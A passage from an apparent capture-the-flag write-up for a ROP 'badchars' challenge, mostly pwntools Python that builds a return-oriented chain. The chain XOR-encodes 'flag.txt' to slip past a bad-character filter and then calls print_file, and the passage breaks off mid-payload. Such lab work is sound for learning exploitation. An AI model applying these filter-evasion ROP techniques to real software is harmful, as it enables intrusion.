 ```python

junk = 0xbeef

payload = [
    b'A' * offset,
    p64(ret),
    p64(pop_r12_pop_r13_pop_r14_pop_r15),
    b'flag.txt',            # r12
    p64(string_address),    # r13
    p64(junk),              # r14
    p64(junk),              # r15
    p64(mov_qword_ptr_r13_r12),
    p64(pop_rdi),
    p64(string_address),
    p64(print_file)
]
```

But the difference in this challenge is the presence of a check for this **bad chars**:

```
badchars are: 'x', 'g', 'a', '.'
```

If the program see one of this chars, it will substitue it with **-0x15**.

In the binary there is this useful **gadget**:

```
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
```

So we can insert to the **r15** register the address of the stored string and xor it with the **lower 8 bits** of **r14** register.

Repeat this operation for the length of the filename:

```python
buffer_dim = 32
offset = buffer_dim + 8

print_file = exe.symbols['print_file']

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
pop_r12_pop_r13_pop_r14_pop_r15 = rop.find_gadget(['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]
mov_qword_ptr_r13_r12 = 0x400634
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_r14_pop_r15 = rop.find_gadget(['pop r14', 'pop r15'])[0]

string_address = 0x601038
xor_byte = 0x20

xor_byte_ptr_r15_r14b = 0x400628

filename = 'flag.txt'

xored_string = ''
for c in filename:
    xored_string += chr(ord(c) ^ xor_byte)

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_r12_pop_r13_pop_r14_pop_r15),
    xored_string.encode(),             # r12
    p64(string_address),               # r13
```